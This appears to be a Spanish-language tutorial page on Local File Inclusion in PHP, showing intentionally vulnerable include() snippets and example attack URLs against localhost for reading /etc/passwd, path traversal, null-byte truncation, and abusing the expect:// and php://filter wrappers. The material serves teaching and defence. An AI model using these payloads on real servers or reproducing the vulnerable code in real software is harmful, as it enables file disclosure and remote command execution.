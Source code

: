 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad 'Local File Inclusion', 'LFI' por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script de PHP:

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Donde podemos leer cualquier archivo del sistema, en este caso el '/etc/passwd'

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de PHP, también está presente en otros lenguajes como lo es JSP o ASP.

### [](#header-3)Directory Path Traversal

Es posible que en el código se nos limite a acceder a archivos que se ubican únicamente en la ruta establecida, en este caso '/var/www/html/'.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta establecida si añadimos '../', pudiendo así listar contenido más allá de '/var/www/html/'.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos con únicamente de la extensión establecida, en este caso 'PHP'.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo '/etc/passwd', o cualquier otro archivo, lo que estariamos leyendo en realidad sería el archivo '/etc/passwd.php', el cual no existe. Sin embargo, si añadimos el nullbyte (`%00`) al final de nuestra cadena de ataque, el '.php' no será tenido en cuenta. 

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

PHP cuenta con una serie de "wrappers", los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser Base64 o ROT13. 

Este wrapper es bastante útil si necesitamos leer un archivo en PHP, ya que recordemos, este es un lenguaje interpretado, por lo que si intentamos leer un archivo PHP, no veríamos nada.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
